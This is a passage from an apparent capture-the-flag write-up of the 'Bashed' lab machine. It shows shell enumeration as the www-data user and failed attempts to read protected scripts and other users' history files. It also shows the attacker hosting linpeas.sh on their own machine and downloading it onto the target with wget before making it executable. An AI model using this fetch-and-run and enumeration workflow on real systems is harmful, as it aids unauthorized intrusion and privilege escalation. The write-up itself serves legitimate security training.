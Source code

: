 The scripts directory was interesting, but I was blocked from looking at it:

```bash
www-data@bashed:/var/www/html/dev# ls -la /scripts
  
ls: cannot access '/scripts/..': Permission denied  
ls: cannot access '/scripts/test.py': Permission denied  
ls: cannot access '/scripts/test.txt': Permission denied  
ls: cannot access '/scripts/.': Permission denied  
total 0  
d????????? ? ? ? ? ? .  
d????????? ? ? ? ? ? ..  
\-????????? ? ? ? ? ? test.py  
\-????????? ? ? ? ? ? test.txt  

www-data@bashed:/var/www/html/dev# cat /scripts/test.py
  
cat: /scripts/test.py: Permission denied  

www-data@bashed:/var/www/html/dev# cat /scripts/test.txt
  
cat: /scripts/test.txt: Permission denied
```

I tried looking for other interesting files in `/var/www/html`. There was a `config.php` file, but nothing in it besides a fake email for the `php/sendMail.php` file.

I also tried reading the `.bash_history` files for `arrexel` and `scriptmanager`, but I was not allowed.

### Linpeas

I cracked and tried to run linpeas. As this is the first time I've done this in this series, I'll briefly explain the file transfer process. `linpeas.sh` is hosted on my box in a directory full of enumeration scripts. I can run a python server in this directory with `python3 -m http.server`, and download files from it with `wget [IP]:8000/linpeas.sh` - this is the easiest way to transfer files to the remote machine.

I downloaded it to the box, gave it permissions to be executed, and ran it:

```bash
www-data@bashed:/tmp# wget 10.10.14.13:8000/linpeas.sh

  
\--2021-05-05 02:18:03-- http://10.10.14.13:8000/linpeas.sh  
Connecting to 10.10.14.13:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 325084 (317K) \[text/x-sh\]  
Saving to: 'linpeas.sh'

www-data@bashed:/tmp# chmod +x linpeas.sh

  
chmod: invalid mode: 'x'  
Try 'chmod --help' for more information.  

www-data@bashed:/tmp# chmod 777 linpeas.sh

  

www-data@bashed:/tmp# ls -la

  
total 360  
drwxrwxrwt 10 root root 4096 May 5 02:18 .  
drwxr-xr-x 23 root root 4096 Dec 4 2017 ..  
drwxrwxrwt 2 root root 4096 May 5 00:29 .ICE-unix  
```